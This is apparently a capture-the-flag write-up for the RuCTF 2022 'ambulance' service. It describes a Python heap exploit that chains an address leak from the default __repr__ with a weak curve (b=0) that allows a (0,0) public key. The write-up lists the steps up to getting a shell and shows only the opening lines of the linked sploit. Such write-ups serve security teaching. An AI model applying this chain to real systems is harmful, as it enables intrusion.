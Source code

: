 Python default `__repr__` leaks the address of the object:

```
>>> print(NoDisease)
<__main__.Disease at 0x1037392a0>
```

By default this object is stored in `User` structure, but it could be bypassed if the attacker updates disease in the other session. Then he could calculate offset to any python heap chunk.

### How to make $(0, 0)$ point

Look at the `SecureCurve`:

```python
SecureCurve = Curve(
    p  = 0xa0fca03a870f6e3fc52aeef0d61f198fddc7a2c6bd414b3e5a1afc5a4a82009d,
    a  = 0x3458be7671950c6b01bed2734056c9217012fd1f07ee085afd504b412061e63c,
    b  = 0x0,
    q  = 0xa0fca03a870f6e3fc52aeef0d61f19915ca241a1b2e1cb33cb1434415514a902,
    gx = 0x6a0ea6b596c2adb773a821e9c6799a0e8ab03e355560a64ac1eecb6df8bd92ba,
    gy = 0x9e337b7d04c686771d18cd12a9b5174cb5b134be7ab09176c418bce4ff265de9,
    oid = b's\xee\xccur\xee',
    name = 'SecureCurve',
)
```

It has $b = 0$, therefore the curve contains $(0, 0)$ point. The attacker could set his public key to $(0, 0)$ using $\dfrac{q}{2}$ as private key (`recovery_key`):

```
>>> SecureCurve.G * (SecureCurve.q // 2)
<POINT AT INFINITY>
```

### The exploit TLDR

1. Leak address of `Disease()` object and calculate offset to some _chunk_
2. Set public key to $(0, 0)$
3. Create a _fake chunk_ inside the controlled _chunk_
4. Write the address on the stack using `gmpy2.to_binary`
5. Free the _fake chunk_ using point muptiplication (verifying password)
6. Create list at _fake chunk_
7. Create a fake object with deallocator function and rewrite some list pointers using _chunk_
8. Destroy this object and drop shell

### Example sploit

Sploit source code: [sploit.py](https://github.com/HackerDom/ructf-2022/blob/main/sploits/ambulance/sploit.py).

```python
#!/usr/bin/env python3

import sys
import time
import struct
import secrets
import asyncio

import api
import utils


IP = sys.argv[1] if len(sys.argv) > 1 else '0.0.0.0'
PORT = 17171


```